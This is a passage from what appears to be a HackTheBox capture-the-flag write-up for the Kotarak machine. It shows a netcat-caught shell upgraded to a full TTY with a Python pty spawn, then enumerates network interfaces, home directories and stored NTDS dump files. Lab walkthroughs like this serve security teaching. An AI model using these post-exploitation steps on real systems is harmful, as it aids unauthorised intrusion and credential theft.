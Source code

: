 ```

python -c 'import pty;pty.spawn("bash")'
tomcat@kotarak-dmz:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
                                                                         
tomcat@kotarak-dmz:/$

```

## Shell as atanas on dmz

### Enumeration

#### Hosts

The hostname with this shell is kotarak-dmz, which implies there’s another host I will try to go after.

The `ifconfig` shows that the IP of this host is 10.10.10.55, which for HTB means that I’m on the main VM. There’s also a lxcbr0 adapter with the IP 10.0.3.1. LXC is a container system, so I suspect I need to get into a container on that network.

#### Homedirs

I’ll There are two home directories on this dmz host:

```

tomcat@kotarak-dmz:/home$ ls
atanas  tomcat

```

`user.txt` is in `atanas`, but I can’t read it as tomcat:

```

tomcat@kotarak-dmz:/home$ ls -l atanas/
total 4
-rw-rw---- 1 atanas atanas 33 Jul 19  2017 user.txt

```

`/home/tomcat` (which isn’t actually the home directory for the tomcat user, but it’s still there) holds two files in a subdirectory:

```

tomcat@kotarak-dmz:/home/tomcat$ find . -type f
./to_archive/pentest_data/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
./to_archive/pentest_data/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit

```
